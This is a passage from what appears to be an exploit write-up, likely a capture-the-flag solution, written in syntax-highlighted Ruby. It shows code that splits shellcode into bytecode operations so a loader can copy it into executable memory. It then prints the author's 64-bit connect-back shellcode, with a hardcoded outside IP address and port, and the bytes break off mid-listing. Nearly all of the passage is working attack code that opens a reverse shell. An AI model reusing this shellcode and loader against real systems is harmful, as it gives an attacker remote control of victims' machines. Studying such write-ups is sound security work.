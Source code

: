 Then I just convert the shellcode into a bunch of bytecode operators / operands, which will be the entirity of the fourth bytecode function (I'm proud to say that this code worked on the first try):

<pre>
  <span class="Comment"># Pad the shellcode to the proper length</span>
  shellcode = <span class="Type">SHELLCODE</span>
  <span class="Statement">while</span>((shellcode.length % <span class="Constant">26</span>) != <span class="Constant">0</span>)
    shellcode += <span class="Special">&quot;</span><span class="Special">\xCC</span><span class="Special">&quot;</span>
  <span class="Statement">end</span>

  <span class="Comment"># Now we create a new function, which simply stores the actual shellcode.</span>
  <span class="Comment"># Because this is a known offset, we can copy it to the +rwx memory with</span>
  <span class="Comment"># a loader</span>
  ops = []

  <span class="Comment"># Break the shellcode into 26-byte chunks (the size of an operation)</span>
  shellcode.chars.each_slice(<span class="Constant">26</span>) <span class="Statement">do</span> |<span class="Identifier">slice</span>|
    <span class="Comment"># Make the character array into a string</span>
    slice = slice.join

    <span class="Comment"># Split it into the right proportions</span>
    a, b, c, d = slice.unpack(<span class="Special">&quot;</span><span class="Constant">SQQQ</span><span class="Special">&quot;</span>)

    <span class="Comment"># Add them as a new operation</span>
    ops &lt;&lt; create_op(a, b, c, d)
  <span class="Statement">end</span>

  <span class="Comment"># Add the operations to a new function (no offset, since we just need to</span>
  <span class="Comment"># get it stored, not run as bytecode)</span>
  add(s, ops, <span class="Constant">16</span>)
</pre>

And, for good measure, here's my 64-bit connect-back shellcode:

<pre>
<span class="Constant"># Port 17476, chosen so I don</span><span class="Special">'</span>t have to think about endianness at 7am at night :)
<span class="Type">REVERSE_PORT</span> = <span class="Special">&quot;</span><span class="Special">\x44\x44</span><span class="Special">&quot;</span>

<span class="Comment"># 206.220.196.59</span>
<span class="Type">REVERSE_ADDR</span> = <span class="Special">&quot;</span><span class="Special">\xCE\xDC\xC4\x3B</span><span class="Special">&quot;</span>

<span class="Comment"># Simple reverse-tcp shellcode I always use</span>
<span class="Type">SHELLCODE</span> = <span class="Special">&quot;</span><span class="Special">\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a</span><span class="Special">&quot;</span> +
<span class="Special">&quot;</span><span class="Special">\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0</span><span class="Special">&quot;</span> +
<span class="Special">&quot;</span><span class="Special">\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24</span><span class="Special">&quot;</span> +
<span class="Special">&quot;</span><span class="Special">\x02</span><span class="Special">&quot;</span> + <span class="Type">REVERSE_PORT</span> + <span class="Special">&quot;</span><span class="Special">\xc7\x44\x24\x04</span><span class="Special">&quot;</span> + <span class="Type">REVERSE_ADDR</span> + <span class="Special">&quot;</span><span class="Special">\x48\x89\xe6\x6a\x10</span><span class="Special">&quot;</span> +
<span class="Special">&quot;</span><span class="Special">\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48</span><span class="Special">&quot;</span> +
<span class="Special">&quot;</span><span class="Special">\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a</span><span class="Special">&quot;</span> +